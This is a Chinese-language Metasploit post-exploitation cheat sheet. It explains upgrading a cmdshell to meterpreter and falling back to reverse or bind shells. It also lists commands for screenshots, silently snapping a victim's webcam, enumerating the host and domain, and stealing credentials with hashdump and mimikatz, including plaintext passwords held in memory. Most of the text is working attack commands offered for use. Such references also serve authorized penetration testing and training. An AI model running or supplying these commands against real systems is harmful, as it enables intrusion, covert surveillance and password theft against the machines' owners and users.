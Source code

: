 **cmdshell 升级为 meterpreter**

如果最开始获取的是 cmdshell,后来发现这台机器非常适合作为测试其它终端的跳板,这个时候 cmdshell 的功能已经不能满足需要,升级成 meterpreter 就十分有必要.`sessions -u "id"` 将该 cmdshell 升级成 meterpreter

**注意事项**

如果 meterpreter session 创建成功了,但很快就断连,此时应该修改使用的 payload,优先改成 generic/shell_reverse_tcp 等

如果还不成功,切换回连端口或者改成 bind shell 试试

---

## 信息收集

**截屏**
```bash
use espia
screenshot
screengrab
```

**摄像头**
```bash
webcam_snap -i 1 -v fales                               # 不开闪光灯拍照
```

**环境检测**
```bash
run post/windows/gather/checkvm                         # 是否虚拟机
run post/linux/gather/checkvm                           # 是否虚拟机

getuid                                                  # 查看当前用户

run post/windows/gather/enum_applications               # 获取目标主机安装软件信息;
run post/windows/gather/enum_patches                    # 查看目标主机的补丁信息;
run post/windows/gather/enum_domain                     # 查找目标主机域控.
run post/windows/gather/enum_logged_on_users            # 列举当前登录过主机的用户;
run post/windows/gather/credentials/windows_autologin   # 抓取自动登录的用户名和密码;

run post/windows/gather/forensics/enum_drives           # 查看分区
run post/windows/gather/enum_applications               # 获取安装软件信息
run post/windows/gather/dumplinks                       # 获取最近的文件操作
run post/windows/gather/enum_ie                         # 获取 IE 缓存
run post/windows/gather/enum_chrome                     # 获取 Chrome 缓存
run post/windows/gather/enum_patches                    # 补丁信息
run post/windows/gather/enum_domain                     # 查找域控

run post/linux/busybox/enum_hosts                       # 读取/var/hosts
run post/windows/gather/enum_hostfile                   # 读取 %windir%\system32\drivers\etc\hosts
```

**抓取密码**
```bash
run hashdump                        # 获取用户密码 hash 值

load mimikatz                       # 加载 mimikatz,用于抓取密码,不限于明文密码和 hash 值;
msv                                 # 获取的是 hash 值
ssp                                 # 获取的是明文信息
kerberos
wdigest                             # 读取内存中存放的账号密码明文信息
mimikatz_command -f samdump::hashes # 获取用户 hash
mimikatz_command -f handle::list    # 列出应用进程
mimikatz_command -f service::list   # 列出服务

run windows/gather/credentials/windows_autologin    # 抓取自动登录的用户名和密码
run windows/gather/smart_hashdump

```